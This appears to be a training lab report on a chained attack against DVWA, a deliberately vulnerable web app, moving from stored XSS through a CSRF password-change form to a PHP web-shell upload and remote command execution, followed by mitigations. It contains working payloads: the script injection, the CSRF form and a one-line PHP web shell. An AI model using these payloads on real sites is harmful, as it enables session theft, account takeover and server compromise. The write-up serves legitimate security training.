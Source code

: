 # Lab Report: DVWA - XSS to CSRF to File Upload RCE

---

## Objective
Demonstrate how a chained attack on a web app (DVWA) can escalate from a simple XSS bug to full remote code execution by abusing CSRF and insecure file upload.

---

## Lab Setup
- **Target:** DVWA (Damn Vulnerable Web Application)
- **Attacker:** Kali Linux
- **Tools:** Burp Suite, browser, curl, netcat

---

## Recon
- Identify input fields.
- Test with payloads: `<script>alert(1)</script>`.
- Use Burp to intercept, modify, repeat requests.

---

## Exploitation

### 1️⃣ Stored XSS
- Find comment section or profile field that reflects input.
- Inject `<script>` to steal cookies or deface page.
- Prove session hijack by capturing cookie & reusing in new browser session.

### 2️⃣ CSRF
- Craft CSRF PoC:
```html
<form action="http://<target>/change_password.php" method="POST">
<input type="hidden" name="password" value="newpass123">
<input type="hidden" name="confirm_password" value="newpass123">
<input type="submit" value="Submit">
</form>
````

* Deliver to victim (simulate click).
* Confirm password changed without auth.

### 3️⃣ File Upload → RCE

* Use Burp to bypass file extension filter.
* Upload a PHP reverse shell (`<?php system($_GET['cmd']); ?>`).
* Trigger it via browser: `http://<target>/uploads/shell.php?cmd=whoami`.

---

## Post-Exploitation

* Prove code execution (`id`, `uname -a`).
* Connect back with netcat.
* Enumerate server context.

---

## Mitigation

* Sanitize input
* Implement CSP
* CSRF tokens
* Strict file validation on upload
* Remove web shells & harden web root permissions

---

## Screenshots

![XSS proof](screenshots/xss_popup.png)
![CSRF PoC](screenshots/csrf_exploit.png)
![RCE proof](screenshots/rce_shell.png)

---

## References

* [OWASP XSS Guide](https://owasp.org/www-community/attacks/xss/)
* [OWASP CSRF Guide](https://owasp.org/www-community/attacks/csrf)
* [OWASP File Upload Guidelines](https://owasp.org/www-community/attacks/Unrestricted_File_Upload)
